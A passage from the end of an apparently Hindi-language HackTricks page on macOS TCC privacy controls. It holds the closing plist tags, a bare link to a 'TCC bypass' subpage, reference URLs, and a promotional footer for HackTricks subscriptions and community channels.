</dict>
</array>
</dict>
</dict>
</plist>
```
### TCC बायपास

{% content-ref url="macos-tcc-bypasses/" %}
[macos-tcc-bypasses](macos-tcc-bypasses/)
{% endcontent-ref %}

## संदर्भ

* [**https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive**](https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive)
* [**https://gist.githubusercontent.com/brunerd/8bbf9ba66b2a7787e1a6658816f3ad3b/raw/34cabe2751fb487dc7c3de544d1eb4be04701ac5/maclTrack.command**](https://gist.githubusercontent.com/brunerd/8bbf9ba66b2a7787e1a6658816f3ad3b/raw/34cabe2751fb487dc7c3de544d1eb4be04701ac5/maclTrack.command)
* [**https://www.brunerd.com/blog/2020/01/07/track-and-tackle-com-apple-macl/**](https://www.brunerd.com/blog/2020/01/07/track-and-tackle-com-apple-macl/)
*   [**https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/**](https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/)



<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबरसिक्योरिटी कंपनी** में काम करते हैं? क्या आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे**? या क्या आप **PEASS के नवीनतम संस्करण तक पहुँच चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **[**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) में शामिल हों या [**telegram group**](https://t.me/peass) में या मुझे **Twitter** पर **फॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **अपनी हैकिंग ट्रिक्स साझा करें, [**hacktricks repo**](https://github.com/carlospolop/hacktricks) और [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके।**

</details>

